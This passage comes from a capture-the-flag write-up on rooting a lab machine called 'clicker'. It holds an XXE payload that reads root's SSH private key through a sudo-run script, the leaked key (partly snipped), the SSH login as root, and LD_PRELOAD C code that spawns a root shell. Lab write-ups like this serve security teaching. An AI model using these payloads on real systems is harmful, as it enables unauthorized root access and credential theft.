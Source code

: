 There are a handful of files I could try to read. `root.txt` would be a start, but I’d rather go for a shell. There happens to be a root SSH key when I set the XML to:

```
<?xml version="1.0"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "/root/.ssh/id_rsa">]>
<file>&ent;</file>

```

The result is:

```
jack@clicker:~$ sudo http_proxy=http://10.10.14.6:8080 /opt/monitor.sh
<?xml version="1.0"?>
<!DOCTYPE replace [
<!ENTITY ent SYSTEM "/root/.ssh/id_rsa">
]>
<file>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAmQBWGDv1n5tAPBu2Q/DsRCIZoPhthS8T+uoYa6CL+gKtJJGok8xC
...[snip]...
UyOYOJc1Mv8zkAAAAMcm9vdEBjbGlja2VyAQIDBAUGBw==
-----END OPENSSH PRIVATE KEY-----
</file>

```

With that, I’m able to save it to a file on my host, and SSH in:

```
oxdf@hacky$ vim ~/keys/clicker-root
oxdf@hacky$ chmod 600 ~/keys/clicker-root
oxdf@hacky$ ssh -i ~/keys/clicker-root root@clicker.htb
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-84-generic x86_64)
...[snip]...
root@clicker:~#

```

### Method \#3 via LD\_PRELOAD

Ippsec actually pointed this one out to me (though I’m embarrassed I missed it in hindsight). If I can set almost any environment variable, why not `LD_PRELOAD`? `LD_PRELOAD` is an environment variable that tells all running programs of a library to load on executing. [This HackTricks page](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#ld_preload-and-ld_library_path) has exploit code.

I’ll create a simple C program that unsets the `LD_PRELOAD` variable (to prevent loops), sets the privileges to root user and group, and runs `bash`:

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

```
